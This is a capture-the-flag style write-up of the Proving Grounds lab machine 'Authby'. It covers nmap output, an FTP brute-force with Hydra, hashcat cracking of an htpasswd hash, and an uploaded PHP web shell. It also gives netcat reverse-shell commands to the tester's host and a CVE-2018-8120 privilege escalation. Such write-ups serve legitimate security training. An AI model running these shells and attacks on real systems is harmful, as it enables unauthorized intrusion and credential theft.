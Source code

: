 #### Mind Map

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Authby/rooted202111141710.png)

#### Enumeration

```
# Nmap 7.91 scan initiated Mon Nov  8 07:23:31 2021 as: nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p- -oN /home/kali/Documents/OffSecPG/Authby/AutoRecon/results/192.168.80.46/scans/_full_tcp_nmap.txt -oX /home/kali/Documents/OffSecPG/Authby/AutoRecon/results/192.168.80.46/scans/xml/_full_tcp_nmap.xml 192.168.80.46
Nmap scan report for 192.168.80.46
Host is up, received user-set (0.30s latency).
Scanned at 2021-11-08 07:23:32 EST for 709s
Not shown: 65531 filtered ports
Reason: 65531 no-responses
PORT     STATE SERVICE            REASON          VERSION
21/tcp   open  ftp                syn-ack ttl 127 zFTPServer 6.0 build 2011-10-17
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| total 9680
| ----------   1 root     root      5610496 Oct 18  2011 zFTPServer.exe
| ----------   1 root     root           25 Feb 10  2011 UninstallService.bat
| ----------   1 root     root      4284928 Oct 18  2011 Uninstall.exe
| ----------   1 root     root           17 Aug 13  2011 StopService.bat
| ----------   1 root     root           18 Aug 13  2011 StartService.bat
| ----------   1 root     root         8736 Nov 09  2011 Settings.ini
| dr-xr-xr-x   1 root     root          512 Nov 08 20:20 log
| ----------   1 root     root         2275 Aug 09  2011 LICENSE.htm
| ----------   1 root     root           23 Feb 10  2011 InstallService.bat
| dr-xr-xr-x   1 root     root          512 Nov 08  2011 extensions
| dr-xr-xr-x   1 root     root          512 Nov 08  2011 certificates
|_dr-xr-xr-x   1 root     root          512 Jul 26 21:51 accounts
242/tcp  open  http               syn-ack ttl 127 Apache httpd 2.2.21 ((Win32) PHP/5.3.8)
| http-auth: 
| HTTP/1.1 401 Authorization Required\x0D
|_  Basic realm=Qui e nuce nuculeum esse volt, frangit nucem!
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.2.21 (Win32) PHP/5.3.8
|_http-title: 401 Authorization Required
3145/tcp open  zftp-admin         syn-ack ttl 127 zFTPServer admin
3389/tcp open  ssl/ms-wbt-server? syn-ack ttl 127
| rdp-ntlm-info: 
|   Target_Name: LIVDA
|   NetBIOS_Domain_Name: LIVDA
|   NetBIOS_Computer_Name: LIVDA
|   DNS_Domain_Name: LIVDA
|   DNS_Computer_Name: LIVDA
|   Product_Version: 6.0.6001
|_  System_Time: 2021-11-08T12:33:18+00:00
| ssl-cert: Subject: commonName=LIVDA
| Issuer: commonName=LIVDA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2021-06-03T21:15:17
| Not valid after:  2021-12-03T21:15:17
| MD5:   bb3f f979 9fc1 9d02 baa7 d0a4 9ccb 0922
| SHA-1: d0a1 8a6a 8326 1123 85f2 59e3 71ea c66c f3a4 048f
| -----BEGIN CERTIFICATE-----
| MIICzjCCAbagAwIBAgIQGttsFTOC+IFFUDrl75tnVzANBgkqhkiG9w0BAQUFADAQ
| MQ4wDAYDVQQDEwVMSVZEQTAeFw0yMTA2MDMyMTE1MTdaFw0yMTEyMDMyMTE1MTda
| MBAxDjAMBgNVBAMTBUxJVkRBMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKC
| AQEAw5XIXz8iD9nH+yWmmm8qL9mhTX2ePktQVr8V+9pejC7+QnNWIBRiQgn1n24f
| LXtl9fWPICyoHMRlMzPYZXddHGgFU8ld7UwJs2q5/egKfKE25T0Qp6GN8KesIzkn
| un0mIJY7eEx+U+KbjH6Yh7607bGmy3Mjpa18WqwF+i2WWBF8bXDvuZPkcWP2YWBQ
| 01LoDtUFGJ0KeCFIHFe5eCsREFkYKkqLhvGCYPl3EYKVY3Av2VE8VUtf2HadzF1s
| LBlefoT3p26bKr4guGhXUk8EXSNfHZAMl9mGlGX11A4RpVx/gna4Lx/elUYnfLNP
| oSVwjm2I4M/cQyeWXK670acSTwIDAQABoyQwIjATBgNVHSUEDDAKBggrBgEFBQcD
| ATALBgNVHQ8EBAMCBDAwDQYJKoZIhvcNAQEFBQADggEBAHGQtYLWjpu4Mebquf3u
| xfUqqlq+012JEgM2W2j/ny/ax71gMxKa2jr6bWWhfN8j2cNe0tEsJYmaHsiq12l9
| OnOiJ6pSq9HBSp8lycCZ6uyXmPfcYYMuurcAf0dvUjBVbNr7vt74DogaJUzM7HH+
| Do+r1PIODTQdPPiBS+Ygmx1tyStwnMIg47WHslB5L22t31xruDx83l2BzUftdbPB
| /xy1v6LqHhKR/1JPVVbad5dGBJT5nZqPSM2NS6OmiUyZlZbvkLQo8WOnHgq7fSHu
| ylD3NdGLQzpIV6R6tzkY/Gw8gWLH3pFCppgxL7nsnYltPYPDqhT7WHudKsS6CrYC
| 3Ws=
|_-----END CERTIFICATE-----
|_ssl-date: 2021-11-08T12:33:24+00:00; -1m55s from scanner time.
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|7|8.1|Vista|2012 (92%)
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2012
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.91%E=4%D=11/8%OT=21%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=61891989%P=x86_64-pc-linux-gnu)
SEQ(SP=102%GCD=1%ISR=10C%TI=I%II=I%SS=S%TS=7)
OPS(O1=M54ENW8ST11%O2=M54ENW8ST11%O3=M54ENW8NNT11%O4=M54ENW8ST11%O5=M54ENW8ST11%O6=M54EST11)
WIN(W1=2000%W2=2000%W3=2000%W4=2000%W5=2000%W6=2000)
ECN(R=Y%DF=Y%TG=80%W=2000%O=M54ENW8NNS%CC=N%Q=)
T1(R=Y%DF=Y%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=Y%DFI=N%TG=80%CD=Z)

Uptime guess: 0.021 days (since Mon Nov  8 07:04:30 2021)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=258 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -1m55s, deviation: 0s, median: -1m55s

TRACEROUTE (using port 21/tcp)
HOP RTT       ADDRESS
1   304.14 ms 192.168.49.1
2   304.23 ms 192.168.80.46

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Nov  8 07:35:21 2021 -- 1 IP address (1 host up) scanned in 711.76 seconds

```

We access ftp with anonymous account and the folder contains three zftp account files.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Authby/Authby_2021.11.14_12h14m33s_001_.png)

I create a text file named users.txt and add usernanmes ```admin``` and ```offsec``` to each line.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Authby/Authby_2021.11.14_14h38m52s_002_.png)

Brute force attack with Hydra to obtain credentials. (I learned not to use rockyou.txt in the first place. You can try smaller dictionary files first.)

```
hydra -L users.txt -P /usr/share/wordlists/fasttrack.txt -t 20 -s 21 -f 192.168.73.46 ftp
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Authby/Authby_2021.11.14_14h42m07s_003_.png)

We log in to with admin account and download all the three files. The .htpasswd file stores username and password.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Authby/Authby_2021.11.14_14h49m19s_004_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Authby/Authby_2021.11.14_15h05m44s_005_.png)

Use hashcat to crack the apache md5 hash code and we get the recovery password ```elite```. ([hashcat -m {Hash-Mode}](https://hashcat.net/wiki/doku.php?id=example_hashes))

```
echo '$apr1$oRfRsc/K$UpYpplHDlaemqseM39Ugg0' > hash
hashcat -m 1600 hash -a 0 /usr/share/wordlists/rockyou.txt --force
```
![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Authby/Authby_2021.11.14_15h10m18s_006_.png)

We use credential to pass HTTP authentication.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Authby/Authby_2021.11.14_15h21m10s_007_.png)

Now let's go back to the ftp directory, which looks like the root of the site.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Authby/Authby_2021.11.14_15h24m49s_008_.png)

We upload a php file that can execute system commands via system function. (Many php web sehlls do not work properly.) 

```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Authby/Authby_2021.11.14_15h30m51s_009_.png)

Upload the netcat execution file via ftp.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Authby/Authby_2021.11.14_15h35m33s_010_.png)

Execute the command ```nc.exe -e cmd.exe 192.168.49.73 80``` to get the shell.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Authby/Authby_2021.11.14_15h38m12s_011_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Authby/Authby_2021.11.14_15h38m30s_012_.png)

Check the privileges. 

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Authby/Authby_2021.11.14_15h40m27s_013_.png)

#### Privilege Escalation

The target pc runs an old version os and no patched, so we can try to exploit kernel vulnerabilities.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Authby/Authby_2021.11.14_15h59m42s_014_.png)

After searching for a while I found the vulnerability [CVE-2018-8120](https://github.com/unamer/CVE-2018-8120) working.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Authby/Authby_2021.11.14_16h25m38s_015_.png)

We upload x86 version execution file and execute the netcat command ```nc.exe -e cmd.exe 192.168.49.73 3145```.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Authby/Authby_2021.11.14_16h44m50s_016_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Authby/Authby_2021.11.14_16h45m09s_017_.png)
